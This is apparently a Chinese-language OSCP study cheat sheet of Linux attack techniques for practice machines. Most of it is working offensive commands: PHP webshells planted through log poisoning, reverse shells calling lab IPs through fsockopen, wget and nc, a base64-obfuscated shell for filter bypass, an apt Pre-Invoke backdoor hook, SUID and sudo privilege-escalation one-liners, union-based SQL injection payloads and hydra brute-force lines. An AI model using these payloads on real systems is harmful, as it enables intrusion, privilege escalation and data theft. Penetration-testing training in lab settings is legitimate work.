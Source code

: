 # OSCP --- Linux
**目录扫描**
1. nikto
2. dirb
  a. dirb http:// IP or URL
  b. dirb http:// IP or URL -X .php,.txt -指定后缀名
3. dirbuster
4. robots.txt文件

**LFI**
1. ssh可访问日志: /var/log/auth.log。用ssh ‘<?php system($_GET[‘csd’]);?>’来上传一句话木马来反弹shell。
2. Nginx的可访问日志位置/var/log/nginx/access.log，用Burp上传一句话木马<?php system($_GET[‘cmd’]);?>
3. Apache access and error logs (/var/log/apache2/access.log and /var/log/apache2/error.log).

**反弹shell**
1. https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md
2. php-reverse-shell.php - 修改ip和port

**Wordpress:**
1. wpscan扫描插件 + searchsploit
2. Themes --> Editior --> 找个可以修改的php
3. Plugins -> Add New -> this page

**Drupal**
1. 安装php包(https://www.drupal.org/project/php)
2. 下载好后在Extend下安装PHP模板
3. 安装成功后激活模板
4. 创建php页面来反弹shell

**weevly（IMF靶机）**
1. weevly generate 1234 shell.php
2. weevly http://xxx.xxx.xxx.xxx/.../.../shell.php 1234

**PHPLiteAdmin**
1. 在test_db.php下创建一个数据库，然后再创建一个表格，上传php代码，即可被执行
2. 创建了一个csd的数据库，再在数据库下传教一个表格。然后在value下写入php代码。这里先采用了exp中的<?php phpinfo()?>进行尝试。写入成功后，用之前的文件包含漏洞访问csd.php(文件具体位置在数据库中可见)。
3. 先在kali机上进入/var/www/html目录，创建shell.txt文件。然后在shell.txt文件内写入<?php $sock=fsockopen("192.168.9.77",1234);exec("/bin/sh -i <&3 >&3 2>&3");?>
4. 修改Default Value，设置为<?php system("wget 192.168.9.77/shell.txt -O /tmp/shell.php;php /tmp/shell.php");?>

**Symfony**
1. https://infosecwriteups.com/how-i-was-able-to-find-multiple-vulnerabilities-of-a-symfony-web-framework-web-application-2b82cd5de144
2. https://github.com/ambionics/symfony-exploits/blob/main/secret_fragment_exploit.py

**哈希加密**
1. john工具：
  a. john --wordlist=xxx password.txt (指定字典)
  b. john password.txt --show
2. Crackstation：https://crackstation.net/
3. echo “xxxxx” | base64 -d
4. Argon2加密（Typo3）

**提权**
1. 查找suid
  a. find / -perm -u=s -type f 2>/dev/null
  b. find / -user root -perm -4000 -print 2>/dev/null
  c. find / -user root -perm -4000 -exec ls -ldb {} \
2. sudo权限
  a. sudo -l查看权限
  b. 查看相关sudo命令的用法
3. vim提权
  a. :set shell=/bin/bash
  b. :shell
4. nmap提权
  a. 交互式（有版本限制）
    1) --interactive进入交互式界面，
    2) !sh
  b. 利用脚本
    1) echo 'os.execute("/bin/sh")' > getShell
    2) sudo nmap --script=getShell
5. find提权
  a. find . -exec /bin/sh -p \; -quit
  b. find test -exec /bin/bash \;
6. gdb提权
  a. gdb -nx -ex 'python import os; os.setuid(0)' -ex '!bash' -ex quit
7. 利用定时任务crontab来提权
  a. 找到系统中会被root定时执行的脚本
  b. echo "Payload" > 脚本
  c. Kali开启监听，等待root执行反弹shell
8. 环境变量提权（Escalate_Linux）
  a. 查看可用脚本
  b. cd /tmp
  c. 根据要求写文件（例如echo “nc - c /bin/bash ” > ls）
  d. chmod 777 ls
  e. export PATH=/tmp:$PATH
  f. 执行脚本
9. Python提权：
  a. python -c ‘import os; os.system(“/bin/sh”)’
10. zip提权：
  a. 进入tmp目录，创建一个exploit文件
  b. sudo -u root zip /tmp/exploit.zip /tmp/exploit -T --unzip-command="sh -c /bin/bash"
11. 内核提权
  a. uname -a查看内核版本号
  b. searchsploit查找相关exp

**命令执行**
1. 绕过：
 a. 用单引号（例如c’a’t）
 b. echo + base64加密绕过：
 c. echo bmMgLWMgL2Jpbi9iYXNoIDE5Mi4xNjguOS43NyAxMjM0 |base64 -d | bash

**Web扫描**
1. joomla - joomscan
2. Wordiness - wpscan

**SQL注入**
1. sqlmap
  a. 一般模式：sqlmap - u “xxx” --dbs ---> sqlmap -u “xxx” -D x --tables ---> sqlmap -u “xxx” -D x -T x --columns ---> sqlmap -u “xxx” -D x -T x -C “x,y” --dump-all
  b. 带有session的：
      用Burp截包保存为本地文件（例如sql.txt）
      sqlmap -r sql.txt --dbs .... or sqlmap --cookie ID
2. 手工sql注入
  a. 用 ’ 或者 ’ 1=1 or(and) #(-- ) + ’ 1=2 or(and) #(-- )来判断是否有SQL注入
  b. unionselect语句
      1) Order by + 数字
      2) 若Order by 不成功则从1开始逐个尝试
      3) ' union select group_concat(schema_name),2,3,4,5,6 from information_schema.schemata#
      4) ' union select group_concat(table_name),2,3,4,5,6 from information_schema.tables where table_schema="xxx"# - 数据库名
      5) ' union select group_concat(table_name),2,3,4,5,6 from xxx.tables where table_schema="yyy"# - 表名
      6) ' union select group_concat(column_name),2,3,4,5,6 from information_schema.columns where table_name="zzz" - 表的内容
      7) ' union select group_concat(具体信息),2,3,4,5,6 from Staff.StaffDetails#

**爆破**
1. Burpsuite
2. rockyou.txt
3. cewl http://IP(URL) -w xxx.txt
4. hydra 
  hydra: hydra -L user.txt -P password.txt xxx.xxx.xxx.xxx(ip) ssh
  hydra -l otis -P /usr/share/wordlists/rockyou.txt 192.168.0.36 http-post-form '/monitoring/index.php:username=^USER^&PASSWORD=^PASS^&Login=Login:Sign In'
5. 模糊测试爆破目录wfuzz（psl1靶机里出现）
  wfuzz -c -w wordlist --hc 404 --hl 6(过滤) http://IP
6. fcrackzip工具尝试爆破压缩包密码
7. stegcracker可以爆破图片信息
8. steghide -u -D -p /usr/share/wordlist/rockyou.txt <filename>爆破图片隐写

**信息搜集**
1. 网页：	
2. 关键字
3. 源码
4. js脚本
5. OS
6. /home/目录下
7. /var/www/下

**杂项**
1. gpg解密(靶机Bob)
2. 跳转域名没法解析：修改/etc/hosts
3. 交互式界面python -c 'import pty; pty.spawn("/bin/bash")' 
4. 端口敲击开放filtered - /etc/knockd.conf
    nc IP port
    Nmap -r -p ports IP 
5. 图片
    base64解密生成图片（Fristileaks靶机里出现）
    下载下来查看备用信息
6. getcap -r / 2>/dev/null查看可用的capability
7. ssh -i id_rsa user@IP（ssh带密钥登录）
8. string读取二进制文件
9. crunch生成字典（TommyBoy靶机）
10。 file code（w34kn3ss）查看文件运用语言
11. uncompyle2/6 - python反编译
12. 查找特殊权限getcap -r / 2>/dev/null
13. Flask = Python + Werkzeug
14. Gobuster vhost 扫描域名。
15. https://haxx.in/files/blasty-vs-pkexec.c
16. apt get crontab: payload - echo 'apt::Update::Pre-Invoke {"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.49.114 1234 >/tmp/f"};' > shell and put it under /etc/apt/apt.conf.d
17. Grafana exploits:https://vk9-sec.com/grafana-8-3-0-directory-traversal-and-arbitrary-file-read-cve-2021-43798/

**Mysql**
1. update cms_users set password = (select md5(CONCAT(IFNULL((SELECT sitepref_value FROM cms_siteprefs WHERE sitepref_name = 'sitemask'),''),'admin'))) where username = 'admin'; root用户修改密码。


















